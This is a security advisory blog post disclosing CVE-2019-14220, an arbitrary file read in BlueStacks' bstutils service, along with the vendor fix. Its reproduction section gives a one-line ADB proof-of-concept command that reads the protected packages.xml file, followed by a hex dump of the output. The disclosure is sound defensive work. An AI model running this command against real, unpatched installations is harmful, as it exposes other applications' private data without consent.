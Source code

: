 +++
lang="en-GB"
title="CVE-2019-14220: Local arbitrary file read in BlueStacks"
date="2019-09-30"
author="Maciej Miszczyk"
image="/blog/Seqred_CVE-1.jpg"
tags=['cve','research', 'vulnerability']
+++

#### BlueStacks is an Android emulator for Windows and Mac. During our tests, we have identified an arbitrary file read vulnerability that can be used by malicious applications to access the user's private data.

The bug has been reported to the developers, and has been fixed prior to
the publication of this advisory.

### Summary

An unprotected method in a bstutils service in BlueStacks 4.120 and
below on Mac and 4.110 and below on Winodws allows a local attacker to
read the contents of arbitrary files with system privileges.

### Description

BlueStacks is an Android emulator available for Windows and Mac systems.
It works by creating a virtual smartphone/tablet device inside the host
operating system. The emulated Android OS includes multiple custom
binaries developed by BlueStacks developers, including a system service
called bstutils (identified by an interface descriptor
com.bluestacks.os.IbstUtilsService). This service contains a method
readFile() (transaction id 6 on a tested system), which returns the
contents of a file located under the path provided as method's argument.

readFile() method can be called by any user, including an unprivileged
third-party app. However, methods in the bstutils service are executed
by the system_server process which runs with system and gid. This means
that the method can be used to retrieve contents not accessible to the
caller, including private data of other installed applications.

### Reproduction

Reproducing this issue in ADB is as simple as running the following
command:\
service call bstutils 6 s16 /data/system/packages.xml\
The result should be a hex dump of packages.xml file:

Result: Parcel(\
0x00000000: 00000000 0005caf0 003f003c 006d0078 '........\<.?.x.m.'\
0x00000010: 0020006c 00650076 00730072 006f0069 'l. .v.e.r.s.i.o.'\
0x00000020: 003d006e 00310027 0030002e 00200027 'n.=.'.1...0.'. .'\
0x00000030: 006e0065 006f0063 00690064 0067006e 'e.n.c.o.d.i.n.g.'\
0x00000040: 0027003d 00740075 002d0066 00270038 '=.'.u.t.f.-.8.'.'\
0x00000050: 00730020 00610074 0064006e 006c0061 ' .s.t.a.n.d.a.l.'\
0x00000060: 006e006f 003d0065 00790027 00730065 'o.n.e.=.'.y.e.s.'\
0x00000070: 00200027 003e003f 003c000a 00610070 ". .?.\>...\<.p.a.'\
0x00000080: 006b0063 00670061 00730065 000a003e 'c.k.a.g.e.s.\>...'\
0x00000090: 00200020 00200020 0076003c 00720065 ' . . . .\<.v.e.r.'\
0x000000a0: 00690073 006e006f 00730020 006b0064 's.i.o.n. .s.d.k.'\
0x000000b0: 00650056 00730072 006f0069 003d006e 'V.e.r.s.i.o.n.=.'\
0x000000c0: 00320022 00220035 00640020 00740061 '".2.5.". .d.a.t.'\
0x000000d0: 00620061 00730061 00560065 00720065 'a.b.a.s.e.V.e.r.'\
0x000000e0: 00690073 006e006f 0022003d 00220033 's.i.o.n.=.".3.".'\
0x000000f0: 00660020 006e0069 00650067 00700072 ' .f.i.n.g.e.r.p.'\
0x00000100: 00690072 0074006e 0022003d 006f0067 'r.i.n.t.=.".g.o.'\
0x00000110: 0067006f 0065006c 006d002f 00720061 'o.g.l.e./.m.a.r.'\
0x00000120: 0069006c 002f006e 0061006d 006c0072 'l.i.n./.m.a.r.l.'\
0x00000130: 006e0069 0037003a 0031002e 0031002e 'i.n.:.7...1...1.'\
0x00000140: 004e002f 0046004f 00360032 002f0056 '/.N.O.F.2.6.V./.'\
0x00000150: 00360033 00360033 00320033 003a0032 '3.6.3.6.3.2.2.:.'\
0x00000160: 00730075 00720065 0072002f 006c0065 'u.s.e.r./.r.e.l.'\
0x00000170: 00610065 00650073 006b002d 00790065 'e.a.s.e.-.k.e.y.'\
0x00000180: 00220073 002f0020 000a003e 00200020 's.". ./.\>... . .'\
0x00000190: 00200020 0076003c 00720065 00690073 ' . .\<.v.e.r.s.i.'\
0x000001a0: 006e006f 00760020 006c006f 006d0075 'o.n. .v.o.l.u.m.'\
0x000001b0: 00550065 00690075 003d0064 00700022 'e.U.u.i.d.=.".p.'\
0x000001c0: 00690072 0061006d 00790072 0070005f 'r.i.m.a.r.y.\_.p.'\
0x000001d0: 00790068 00690073 00610063 0022006c 'h.y.s.i.c.a.l.".'\
0x000001e0: 00730020 006b0064 00650056 00730072 ' .s.d.k.V.e.r.s.'\
0x000001f0: 006f0069 003d006e 00320022 00220035 'i.o.n.=.".2.5.".'\
0x00000200: 00640020 00740061 00620061 00730061 ' .d.a.t.a.b.a.s.'\
0x00000210: 00560065 00720065 00690073 006e006f 'e.V.e.r.s.i.o.n.'\
0x00000220: 0022003d 00220033 00660020 006e0069 '=.".3.". .f.i.n.'\
0x00000230: 00650067 00700072 00690072 0074006e 'g.e.r.p.r.i.n.t.'\
0x00000240: 0022003d 006f0067 0067006f 0065006c '=.".g.o.o.g.l.e.'\
0x00000250: 006d002f 00720061 0069006c 002f006e '/.m.a.r.l.i.n./.'\
0x00000260: 0061006d 006c0072 006e0069 0037003a 'm.a.r.l.i.n.:.7.'\
0x00000270: 0031002e 0031002e 004e002f 0046004f '..1...1./.N.O.F.'\
0x00000280: 00360032 002f0056 00360033 00360033 '2.6.V./.3.6.3.6.'\
0x00000290: 00320033 003a0032 00730075 00720065 '3.2.2.:.u.s.e.r.'\
0x000002a0: 0072002f 006c0065 00610065 00650073 '/.r.e.l.e.a.s.e.'\
0x000002b0: 006b002d 00790065 00220073 002f0020 '-.k.e.y.s.". ./.'

//... output truncated for brevity

### Remedy

Update BlueStacks to version 4.130 or later.

[CVE details](https://github.com/seqred-s-a/cve-2019-14220)